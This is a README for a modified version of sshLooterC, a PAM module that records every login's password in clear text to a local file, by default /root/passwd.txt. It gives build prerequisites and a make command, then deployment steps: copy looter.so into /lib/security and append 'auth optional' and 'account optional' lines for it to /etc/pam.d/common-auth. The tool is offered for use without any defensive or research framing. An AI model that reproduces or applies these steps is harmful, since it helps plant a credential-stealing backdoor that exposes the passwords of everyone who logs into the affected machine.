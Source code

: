 # SSHLooter C version with local save

It's a slightly edited version of [sshLooterC](https://github.com/mthbernardes/sshLooterC), which save the passwords in clear text in a local file.  
In this version, curl dependencies have been deleted.

What? "Why should I want to save locally the credentials?", you say?
I don't know and I don't care!

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes. See deployment for notes on how to deploy the project on a live system.

### Prerequisites

You need to meet the following dependencies:

* gcc
* libpam0g-dev

### Configure

Edit the `looter.c` to select where to store passwords.  
As is, the passwords will be stored in `/root/passwd.txt`.  
If the path is not a concern you can just skip to compiling.

### Compiling

```bash
make
```

## Deployment

Copy the `looter.so` to the wanted machine on `/lib/security`, then edit the `/etc/pam.d/common-auth` and append the following lines:
```
auth optional looter.so
account optional looter.so
```

From now on, all the (PAM) logins will be stored.

## Authors

* **Gregorio Casa** - *Few mods* - [ingroxd](https://github.com/ingroxd)
* **Matheus Bernardes** - *Initial work* - [mthbernardes](https://github.com/mthbernardes)

See also the list of [contributors](https://github.com/ingroxd/sshLooterC/contributors) who participated in this project.

## Acknowledgments

* Thanks to [mthbernardes](https://github.com/mthbernardes) for the original project;
* Thanks to [slim8shady9](https://github.com/slim8shady9) for insipration :D.

